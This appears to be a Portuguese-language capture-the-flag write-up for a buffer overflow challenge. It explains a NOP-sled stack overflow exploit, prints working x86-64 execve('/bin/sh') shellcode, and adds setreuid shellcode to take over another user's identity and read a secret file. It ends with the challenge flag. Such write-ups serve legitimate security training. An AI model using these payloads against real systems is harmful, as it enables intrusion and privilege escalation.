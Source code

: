 **Obs:** Não consegui montar um gerador com a forma `(NOP * no_of_nops + shellcode + random_data * no_of_random_data + memory address)`, então pesquisei na internet algumas resoluções do mesmo exercício. Com isso, encontrei este payload de referência:

```bash
./buffer-overflow $(python -c "print('\x90'*90 + \
'\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68' + \
'\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05' + \
'\x90'*22 + '\x98\xe2\xff\xff\xff\x7f')")
```

Neste payload há 90 bytes de NOP, mais o shellcode (cerca de 40 bytes neste exemplo) e um preenchimento seguido por um endereço (onde apontamos para dentro do NOP-sled).

Ao executar esse payload conseguimos criar um shell e usar `cat` para visualizar o `secret.txt`.

Listando arquivos em formato longo (`ll`) identificamos que o `user2` tem acesso ao `secret.txt`.

---

### Escalada de privilégios (setreuid)
**Obs:** Nao consegui prosseguir nesta etapa para dar permissões ao user, com a mesma resolução, prossegui com:

```bash
pwn shellcraft -f amd64.linux.setreuid 1002
```

Isso gerou bytes equivalentes a:

```
\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05
```

Então a ideia foi juntar esse *setreuid* com o shellcode `/bin/sh`, reduzindo um pouco o espaço reservado para padding/endereço para não ultrapassar o limite de 158 bytes. O payload final foi:

```bash
./buffer-overflow $(python -c "print('\x90'*90 + \
'\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05' + \
'\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68' + \
'\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05' + \
'\x90'*8 + '\x98\xe2\xff\xff\xff\x7f')")`
```

Com isso, obtivemos um shell com a identidade do `user2` e conseguimos ler o arquivo `secret.txt`.

---

## Flag encontrada

**Flag:** `omgyoudidthissocool!!`

# [Buffer Overflows]  
###### Resolvido por @SebastiaoKomada  
> Desafio: Buffer Overflow
